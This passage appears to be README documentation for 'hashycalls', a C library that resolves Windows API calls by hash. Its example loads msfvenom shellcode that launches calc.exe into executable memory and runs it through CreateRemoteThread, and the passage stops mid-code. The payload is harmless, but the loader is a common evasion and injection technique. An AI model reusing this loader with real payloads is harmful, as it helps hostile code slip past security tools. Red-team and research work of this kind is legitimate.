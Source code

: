 ### Exported Macros (Global Template)
| Definition | Description |
| - | - |
| GET_FUNCTION_CALL(FunctionName) | Resolves a function from **HashedAPI** structure into variable using the underscore syntax.

### Code Examples

#### Base Template

When using the base template, the developer can use the LOCATE* function macros to resolve the api calls within the block of code. At this time, the developer is restricted to functions in either ntdll, kernelbase or kernel32. This is subject to change in a future update.

```C
#include "hashycalls.h"
#include <stdio.h>

// MSFvenom calc shellcodez
const byte calc[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
  0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
  0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
  0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
  0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
  0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
  0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
  0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
  0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
  0x65, 0x78, 0x65, 0x00
};

int main() {

    /* Locate the function from the dll */
	LOCATE_KERNEL32_FUNCTION(VirtualAlloc);
	LOCATE_KERNEL32_FUNCTION(WriteProcessMemory);
	LOCATE_KERNEL32_FUNCTION(CreateRemoteThread);
    LOCATE_KERNEL32_FUNCTION(WaitForSingleObject);

	PVOID pBase = VirtualAlloc_(NULL, sizeof(calc), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (!pBase) {
		printf("Error virtual alloc: %d\n", GetLastError());
		return -1;
	}

	size_t BytesWritten = 0;
	if (!(WriteProcessMemory_((HANDLE)-1, pBase, calc, sizeof(calc), &BytesWritten))) {
		printf("Failed to write memory. error: %d\n", GetLastError());
		return -1;
	}

	HANDLE hThread = CreateRemoteThread_((HANDLE)-1, 0, 0, (LPTHREAD_START_ROUTINE)pBase, 0, 0, 0);
	if (!hThread) {
```